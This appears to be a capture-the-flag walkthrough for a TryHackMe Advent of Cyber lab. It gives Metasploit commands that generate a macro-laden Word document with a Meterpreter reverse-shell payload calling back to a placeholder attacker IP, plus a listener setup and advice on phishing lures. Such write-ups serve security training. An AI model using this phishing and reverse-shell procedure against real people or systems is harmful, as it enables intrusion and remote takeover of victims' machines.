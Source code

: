 # **Tutorial: Room - Advent of Cyber 2024 - Day 10**

## 📖 Description
In this room, the objective was to exploit a vulnerability in a Microsoft Word document containing a malicious macro. We used Metasploit to set up a reverse shell, which allowed us to remotely access the victim's machine and capture the flag.

---

### **Learning Objectives**
- Understand how phishing attacks work.
- Discover how macros in documents can be used and abused.
- Learn how to carry out a phishing attack with a macro.

---

### **Phishing Attacks**
Security is only as strong as the weakest link in the chain. Many would argue that humans are often the weakest link in security. Is it easier to exploit a patched system behind a firewall, or to convince a user to open an "important" document? This is why "human hacking," or social engineering, is often the easiest route to compromise a system.

Phishing, a form of social engineering, works by sending "bait" to a large group of target users. The attacker often crafts the message with a sense of urgency, prompting the target to take immediate action, which increases the chances of success. The goal is to steal personal information or install malware by convincing the user to open a file, fill out a form, or click a link.

An example might be an email claiming that a large charge is pending, urging the recipient to check the attached document or URL. The attacker just needs the target to open the file or click the link, triggering actions that allow them to control the victim's system.

---

### **Macros**
Macros are used to automate repetitive tasks, such as inserting text or performing calculations. Microsoft Office products like Word support macros, which can be a huge time-saver for users. However, these macros can also be hijacked and used for malicious purposes in cyber attacks.

In the case of phishing, an attacker can create a document with a macro that, once opened, executes a payload on the victim's system, giving the attacker remote control.

---

### **Attack Plan**
The attacker, Mayor Malware, needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the attacker’s machine, giving them remote control. The steps are as follows:

1. Create a document with a malicious macro.
2. Start listening for incoming connections on the attacker’s system.
3. Send the malicious document and wait for the victim to open it.
4. The victim opens the document and connects to the attacker’s system.
5. The attacker gains control of the victim’s system.

---

## 🛠️ Prerequisites
- Active account on [TryHackMe](https://tryhackme.com)
- Basic knowledge of Metasploit and social engineering attacks.
- Tools required:
  - [Metasploit](https://docs.metasploit.com/)
  - Access to the mail server(Rainloop) to send the email

---

## 🚀 Step-by-Step Guide

### 1️⃣ Initial Setup in Metasploit
First, we need to configure the Metasploit payload. We’ll use a `windows/meterpreter/reverse_tcp` payload to receive a reverse connection from the victim's machine. The `[ATTACKERS_IP]` is the IP from our AttackBox.

```bash
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

---

### 2️⃣ Exploiting the Malicious Document
After setting up the exploit, we need to generate the malicious Word file with a macro and send it to the victim. Once the victim opens the file, the reverse shell will be triggered, establishing the connection.

---

### 3️⃣ Handling the Connection in Metasploit
After that, we configure Metasploit to listen for incoming connections. The `[ATTACKERS_IP]` is the IP from our AttackBox.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

---

### 4️⃣ Sending the Malicious Document via Email
To send the malicious document, we will use RainLoop, a webmail client available on the attacker's machine. You can access it by visiting the provided link on the AttackBox.

- **Link for accessing RainLoop**: [Link provide from TryHackMe]
- **Login credentials**:
  - **Email**: `info@socnas.thm`
  - **Password**: `MerryPhishMas!`

Once logged in, compose an email to the victim (`marta@socmas.thm`). Attach the malicious Word file (renaming it to something convincing like `invoice.docm` or `receipt.docm`), and craft a message to encourage the victim to open it. For example, mention that it contains an important invoice or document that requires their attention.

---

### 5️⃣ Gaining Access to the Victim's Machine
Once the victim opens the document and runs the macro, we gain access to their system via the reverse shell. Now we can execute commands on their machine.

---

### 6️⃣ Capturing the Flag
With access to the victim’s machine, we navigate to the desktop and read the flag file.

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

---

### 7️⃣ Conclusion
By running the cat flag.txt command, we successfully obtain the flag, completing the room.

---

### 🖼️ Resources
(Include screenshots or useful links here.)

---

### 📌 Final Notes
This exercise demonstrated how to perform a phishing attack using a malicious macro to gain remote access to a system and exfiltrate information.

---

### 🏆 Final Outcome
After completing all the steps and capturing the flag, the room is finished.
